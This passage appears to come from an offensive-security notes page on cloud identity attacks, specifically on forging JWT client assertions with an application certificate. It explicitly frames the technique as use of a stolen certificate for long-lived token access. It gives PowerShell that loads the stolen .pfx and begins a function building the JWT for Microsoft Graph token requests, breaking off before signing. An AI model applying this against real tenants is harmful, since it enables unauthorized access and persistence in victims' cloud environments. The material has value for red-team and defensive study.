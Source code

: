 ### JWT Assertion
- Sign assertions using the private key after stealing certificate of application and have longer expiry time then client secret (2 years)
- This can be used instead of token grant flows (request access tokens) instead of client secret.
- https://www.huntandhackett.com/blog/researching-access-tokens-for-fun-and-knowledge

#### Load certificate
```
$clientCertificate = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 -ArgumentList 'C:\Users\Public\Cert.pfx'
```

#### Load function
```
# Taken from https://www.huntandhackett.com/blog/researching-access-tokens-for-fun-and-knowledge

function New-AccessToken ($clientCertificate, $tenantID, $appID,
$scope='https://graph.microsoft.com/.default') {
$audience = "https://login.microsoftonline.com/$($tenantID)/oauth2/token"

# Create a base64 hash of the certificate. The Base64 encoded string must by urlencoded
$CertificateBase64Hash =
[System.Convert]::ToBase64String($clientCertificate.GetCertHash())
$CertificateBase64Hash = $CertificateBase64Hash -replace '\+','-' -replace '/','_' -replace '='

# JWT request should be valid for max 2 minutes.
$StartDate = (Get-Date "1970-01-01T00:00:00Z").ToUniversalTime()
$JWTExpirationTimeSpan = (New-TimeSpan -Start $StartDate -End (Get-Date).ToUniversalTime().AddMinutes(2)).TotalSeconds
$JWTExpiration = [math]::Round($JWTExpirationTimeSpan,0)

# Create a NotBefore timestamp.
$NotBeforeExpirationTimeSpan = (New-TimeSpan -Start $StartDate -End ((Get-Date).ToUniversalTime())).TotalSeconds
$NotBefore = [math]::Round($NotBeforeExpirationTimeSpan,0)

# Create JWT header
$jwtHeader = @{
'alg' = "RS256" # Use RSA encryption and SHA256 as hashing algorithm
'typ' = "JWT" # We want a JWT
'x5t' = $CertificateBase64Hash # Webencoded Base64 of the hash of our certificate
}

# Create the payload
$jwtPayLoad = @{
'aud' = $audience # Points to oauth token request endpoint for your tenant
'exp' = $JWTExpiration # Expiration of JWT request
'iss' = $appID # The AppID for which we request a token for
'jti' = [guid]::NewGuid() # Random GUID
'nbf' = $NotBefore # This should not be used before this timestamp
'sub' = $appID # Subject
}

# Convert header and payload to json and to base64
$jwtHeaderBytes = [System.Text.Encoding]::UTF8.GetBytes(($jwtHeader | ConvertTo-Json))
$jwtPayloadBytes = [System.Text.Encoding]::UTF8.GetBytes(($jwtPayLoad | ConvertTo-Json))
$b64JwtHeader = [System.Convert]::ToBase64String($jwtHeaderBytes)
$b64JwtPayload = [System.Convert]::ToBase64String($jwtPayloadBytes)

# Concat header and payload to create an unsigned JWT

$unsignedJwt = $b64JwtHeader + "." + $b64JwtPayload
$unsignedJwtBytes = [System.Text.Encoding]::UTF8.GetBytes($unsignedJwt)

```